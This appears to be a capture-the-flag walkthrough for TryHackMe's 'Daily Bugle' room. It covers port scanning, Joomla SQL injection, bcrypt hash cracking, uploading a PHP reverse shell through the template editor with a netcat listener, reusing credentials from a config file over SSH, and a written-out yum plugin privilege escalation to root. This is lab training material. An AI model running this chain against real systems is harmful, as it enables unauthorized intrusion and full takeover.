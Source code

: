 ## Daily Bungle 
You can access the room from** https://tryhackme.com/room/dailybugle**__
Let’s Start the Machine…
Before getting into the box if you are not using AttackBox make sure you are properly connected to openvpn server and give 2 minutes for the target machine to configure.
**Initial Enumeration
** 
Lets start by enumerating the box by port scanning using nmap. Use the following command
                >   sudo nmap -sV <machine_ip>
The port scanning went well and we have 3 open ports

_nmap Scan Report_
**Port 22** - Its an SSH port and its not gonna give us anything to start.
**Port 80 **- A Web server is running and it might help us to get more information. So lets go check the website.
**Port 3306** - Its a default port used for the MySQL protocol and the database system is MariaDB.
Looking at the website and we got the answer for the first question !!!

**Website Home Page
**
So looking around the website nothing seems informative.So lets run a gobuster in the website.
 > gobuster dir -u <machine_ip> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

**Gobuster Directory List
**So there is a directory for admin(Administrator) and let’s go and check that directory before that we want to check the /robots.txt
From the /robots.txt we get to know that this site is running Joomla CMS, and since the second question is about it’s version. Let’s use CMS scanning tools. There are several tools to enumerate a CMS and am using CMSeeK
Use CMSeeK with the following command to enumerate the website.
   >   sudo python3 <path-to-cmseek.py> -u http://<machine-ip>

**CMSeeK CMS Details
** Now we got the version of Joomla. Answer the second question and lets check the Administrator directory.

Joomla Administrator Login Page
Hooray we found a Joomla login page. But we only got a user name “jonah” mentioned in the box. So lets go and check for any vulnerabilities in Joomla <version>
SQL Injection
Box itself mentioned about a user named Jonah and they prefer not to use SQLMap. So lets look for a python script to enumerate the SQL database.
After a little research we found a python script called Joomblah from github.
Download the code from Github and run the python script as follows.
      >  sudo python <path-to-joomblah.py> http://<machine-ip>

SQL Injection Result
So now we got a username ‘Jonah’ and a hashed password of the user Jonah.
Hash Identification and Cracking
We got a hash and we need to crack it. Before that we need to identify the type of hashing algorithm used. So lets identify the hash using hashid command.
              >    hashid <'hashed password'>

Its a bcrypt hash
The next step is to decrypt the hash. For that we are using hashcat and an alternate option is johntheripper.
I just saved the hash in a file named hash and we are using a wordlist rockyou.txt which is a set of compromised passwords from the social media application developer and contains 14 million passwords.
    >  hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt

Cracked Password
-m flag is used to mention the hash-type
Alternate way to crack a hash is johntheripper and it can be used as below
     john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Now we got a Username ‘jonah’ and a Password so lets go and use them on the joomls login page.

Great we got logged in to the CMS management screen

After some scoop found a possible way to upload a reverse shell in the Templates. Get into templates
PHP Reverse Shell

Extensions -> Templates -> Templates
There are two templates . I chose the second one ‘Protostar Details and Files’

Select Protostar Details and Files
Select the New File from the top panel and give a name and php as file type . then Hit Create.

We will get a notepad to write our script , let’s use it for getting a reverse shell
I am gonna use PHP Reverse Shell by Pentestmonkey from Github . Copy and paste the script and correct the listening machine ip and port number(here i’m using 1234)

Click the Save & Close and we are ready to run the reverse shell.
Let our machine listen to the port using the netcat listener command.
                  >  nc -lvnp <Port-Selected>
Same time we must run the browser with the following url or use tool curl followed by the url in shell itself.
       http://<machine-ip>/templates/protostar/<filename>.php


User Named as **‘jjameson’**
Checking the home directory there is a user with the name ‘jjameson’ but we don't have password to get into it.
So after checking around for some information to exploit the machine found a configuration.php file in the webserver directory /var/www/html

configuration.php
From nmap we know that port 22 is open which is used for SSH, so lets ssh into the machine as “jjameson”
               >  ssh jjameson@<machine-ip>
We will be prompted for the password and give the password we found from config file.

**SSH**
Now we logged in as jjameson and we got our first flag user.txt . For the root.txt flag we need to do privilege escalation.
Privilege Escalation
Lets check our existing sudo privileged command list by running the sudo -l

  > sudo -l Output
That’s it , we found a command that can run as sudo without password.
There is a privilege escalation using yum in gtfobins
    > TF=$(mktemp -d)
   >  cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

 > cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

> cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>  os.execl('/bin/sh','/bin/sh')
EOF

>sudo yum -c $TF/x --enableplugin=y
Just copy and paste the code to jjameson shell .

>yum privilege escalation
We got the root shell. Go and grab the root.txt flag from /root/root.txt

Root Flag
